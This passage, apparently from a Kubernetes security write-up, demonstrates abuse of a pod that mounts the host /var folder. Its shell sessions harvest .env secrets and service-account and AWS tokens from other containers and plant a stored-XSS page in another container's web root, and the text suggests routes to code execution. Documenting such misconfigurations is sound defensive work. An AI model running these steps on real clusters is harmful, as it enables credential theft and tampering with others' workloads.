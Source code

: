 Inside the **pod-mounts-var-folder** container:

```bash
/ # find /host-var/ -type f -iname '*.env*' 2>/dev/null

/host-var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/201/fs/usr/src/app/.env.example
<SNIP>
/host-var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/135/fs/docker-entrypoint.d/15-local-resolvers.envsh

/ # cat /host-var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/105/fs/usr/src/app/.env.example | grep -i secret
JWT_SECRET=85d<SNIP>a0
REFRESH_TOKEN_SECRET=14<SNIP>ea

/ # find /host-var/ -type f -iname 'index.html' 2>/dev/null
/host-var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/57/fs/usr/src/app/node_modules/@mapbox/node-pre-gyp/lib/util/nw-pre-gyp/index.html
<SNIP>
/host-var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/140/fs/usr/share/nginx/html/index.html
/host-var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/132/fs/usr/share/nginx/html/index.html

/ # echo '<!DOCTYPE html><html lang="en"><head><script>alert("Stored XSS!")</script></head></html>' > /host-var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/140/fs/usr/sh
are/nginx/html/index2.html
```

The XSS was achieved:

![Stored XSS via mounted /var folder](/images/stored-xss-via-mounted-var-folder.png)

Note that the container DOES NOT require a restart or anything. Any changes made via the mounted **/var** folder will be applied instantly.

You can also replace configuration files, binaries, services, application files, and shell profiles to achieve automatic (or semi-automatic) RCE.

##### Access to cloud credentials

The container can read K8s serviceaccount tokens or AWS webidentity tokens
which allows the container to gain unauthorized access to K8s or cloud:

```bash
/ # find /host-var/ -type f -iname '*token*' 2>/dev/null | grep kubernetes.io
/host-var/lib/kubelet/pods/21411f19-934c-489e-aa2c-4906f278431e/volumes/kubernetes.io~projected/kube-api-access-64jw2/..2025_01_22_12_37_42.4197672587/token
<SNIP>
/host-var/lib/kubelet/pods/01c671a5-aaeb-4e0b-adcd-1cacd2e418ac/volumes/kubernetes.io~projected/kube-api-access-bljdj/..2025_01_22_12_17_53.265458487/token
/host-var/lib/kubelet/pods/01c671a5-aaeb-4e0b-adcd-1cacd2e418ac/volumes/kubernetes.io~projected/aws-iam-token/..2025_01_22_03_45_56.2328221474/token
/host-var/lib/kubelet/pods/5fb6bd26-a6aa-40cc-abf7-ecbf18dde1f6/volumes/kubernetes.io~projected/kube-api-access-fm2t6/..2025_01_22_12_25_25.3018586444/token
```
